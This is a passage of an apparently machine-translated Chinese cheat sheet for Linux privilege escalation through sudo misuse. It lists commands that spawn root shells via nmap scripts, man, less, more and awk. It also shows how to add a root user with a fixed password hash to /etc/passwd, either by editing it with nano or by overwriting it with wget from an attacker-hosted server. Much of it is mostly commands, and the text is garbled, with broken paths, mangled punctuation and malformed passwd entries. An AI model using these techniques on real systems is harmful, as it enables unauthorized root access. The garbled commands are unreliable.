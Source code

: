 ### **使用** Nmap **命令**

sudo nmap - 交互式 nmap>！shsh-4.1＃

**注意：****nmap –interactive **选项在最新的** nmap**** 中不可用。**

没有互动的最新方式

echo“os.execute（’/ bin / sh’）”> /tmp/shell.nse && sudo nmap —script = / tmp / shell.nse

### **使用** Man **命令**

sudo man man

之后按**！**按下并按 Enter

### **使用 less**/more **命令**

sudo less / etc / hosts

sudo more / etc / hosts

之后按**！**按下并按 Enter

### **使用** awk **命令**

sudo awk’BEGIN {system（“ / bin / sh”）}’

### **使用** nano **命令**

nano 是使用此编辑器的文本编辑器，在您需要切换用户之后，您可以修改 passwd 文件并将用户添加为 root 特权。在 / etc /passwd 中添加此行，以将用户添加为 root 特权。

touhid：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0：0：0：root：/ root：/ bin

sudo nano / etc / passwd

现在切换用户密码是：test

su touhid

### **使用** wget **命令**

这种非常酷的方式要求 Web 服务器下载文件。这样我从没在任何地方见过。让我们解释一下。

*   首先将 Target 的 / etc / passwd 文件复制到攻击者计算机。
    
*   修改文件，并在上一步中保存的密码文件中添加用户到攻击者计算机。
    
*   仅附加此行 =>   **touhid****：**$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0 / 0**：**b**：**root / root**：**
    
*   将 passwd 文件托管到使用任何 Web 服务器的主机。
    

**在受害者方面。**

sudo wget http://192.168.56.1:8080/passwd -O / etc / passwd

现在切换用户密码是：test
